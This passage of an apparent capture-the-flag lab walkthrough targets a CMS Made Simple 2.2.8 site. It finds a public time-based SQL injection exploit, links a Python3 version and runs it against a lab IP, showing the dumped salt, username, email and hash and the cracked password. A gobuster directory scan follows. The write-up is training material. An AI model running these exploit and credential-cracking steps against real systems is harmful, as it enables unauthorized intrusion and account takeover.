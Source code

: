 ```html
Copyright 2004 - 2024 - CMS Made Simple<br /> This site is powered by <a href='http://www.cmsmadesimple.org'>CMS Made Simple</a> version 2.2.8</p> 
```

So, let's see if there is any publicly available exploit for **CMS Made Simple v2.2.8**

```bash
❯ searchsploit made simple 2.2.8
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                          |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                | php/webapps/46635.py
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We found a **SQL Injection vulnerability**, so let's see what it does:

Taking a look to the script, it exploit a **time based SQL Injection** and dump **Users, Emails & Passwords** and then it crack them.

I've got some problems with the `python2` exploit, so i searched for the same exploit rewritten in `python3`, i found this one that worked prefectly:

- **Exploit**: [https://raw.githubusercontent.com/xtafnull/CMS-made-simple-sqli-python3/refs/heads/main/46635.py](https://raw.githubusercontent.com/xtafnull/CMS-made-simple-sqli-python3/refs/heads/main/46635.py)

After executing it and waiting it to end, we get the next result:

```bash
❯ python3 exploit.py -u "http://10.10.197.75/simple" -c -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

So, now that we have valid credentials: `mitch:secret`, we now need to know where to use them, so let's fuzz the `/simple` directory to find a login page.

```bash
❯ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.197.75/simple -t 64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.197.75/simple
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 303]
/.htpasswd            (Status: 403) [Size: 303]
/admin                (Status: 301) [Size: 319] [--> http://10.10.197.75/simple/admin/]
/assets               (Status: 301) [Size: 320] [--> http://10.10.197.75/simple/assets/]
```